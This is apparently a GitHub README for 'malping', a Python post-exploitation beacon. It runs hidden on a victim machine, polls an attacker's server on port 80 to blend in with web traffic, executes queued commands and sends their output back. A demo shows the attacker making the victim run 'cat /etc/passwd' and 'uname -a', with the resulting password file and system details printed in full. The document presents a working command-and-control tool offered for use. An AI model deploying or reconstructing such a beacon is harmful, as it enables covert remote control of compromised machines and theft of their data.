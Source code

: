# malping

A simple implementation of a post-exploitation beacon.

## overview

`malping.py` is the script that runs on the victim machine, theoretically
hidden or obscured in some way. Based on arguments, it sends a ping of sorts
to a specified ip (attacker) at a desired frequency, where `mp_server.py` may
or may not be running. As soon as `mp_server.py` is executed on the attacker's
machine, `malping.py` will be able to connect to the server and essentially ask
for a command to execute, based on arguments passed to `mp_server.py`.
`malping.py` will obediently execute the command and send the stdout back to
the server.

The server runs on port 80 of the attacker's machine by default and since that
is the commonly used port for web traffic, it is highly likely the victim will
be able to connect back.

## demo

The attacker has gotten access to the victim's machine and downloaded and
executed malping. He/she does not have the server running at this point,
but it's ok, malping waits patiently. Eventually the attacker is ready and
starts the server, telling malping to execute the commands, "cat /etc/passwd"
and "uname -a". The next time malping pings the server it sees the commands
queued to be executed and does so, one at a time. When all the commands have
been executed, the server stops, but malping keeps listening.

Victim's Machine (5.4.3.2):

```
$ ./malping.py 1.2.3.4 5
[+] Malping started with delay of 5 seconds to port 80. Ctrl-c to exit.
[!] (2014-05-07 21:52:29.475144) Could not connect to server. Waiting...
[!] (2014-05-07 21:52:34.475740) Could not connect to server. Waiting...
[!] (2014-05-07 21:52:39.475874) Could not connect to server. Waiting...
[!] (2014-05-07 21:52:44.477319) Could not connect to server. Waiting...
[!] (2014-05-07 21:52:49.478246) Could not connect to server. Waiting...
[+] (2014-05-07 21:52:54.480326) Executing "cat /etc/passwd"
[+] (2014-05-07 21:52:59.489891) Executing "uname -a"
[!] (2014-05-07 21:53:04.496380) Could not connect to server. Waiting...
[!] (2014-05-07 21:53:09.497329) Could not connect to server. Waiting...
[!] (2014-05-07 21:53:14.498801) Could not connect to server. Waiting...
```

Attacker's Machine (1.2.3.4):

```
$ sudo ./mp_server.py "cat /etc/passwd" "uname -a"
[+] Malping server started on 80.
[i] Connected By: ('5.4.3.2', 52252) at 2014-05-07 21:52:54.480167
[+] Sending Command: cat /etc/passwd
[+] Command Stdout:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:105::/var/run/dbus:/bin/false
whoopsie:x:103:106::/nonexistent:/bin/false
landscape:x:104:109::/var/lib/landscape:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
lol:x:1001:1001::/home/lol:/bin/bash
[i] Connected By: ('5.4.3.2', 52253) at 2014-05-07 21:52:59.489664
[+] Sending Command: uname -a
[+] Command Stdout:
Linux lolServer 3.8.0-29-generic #42~precise1-Ubuntu SMP Wed May 07 16:19:23 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux

[-] Finished with commands
```
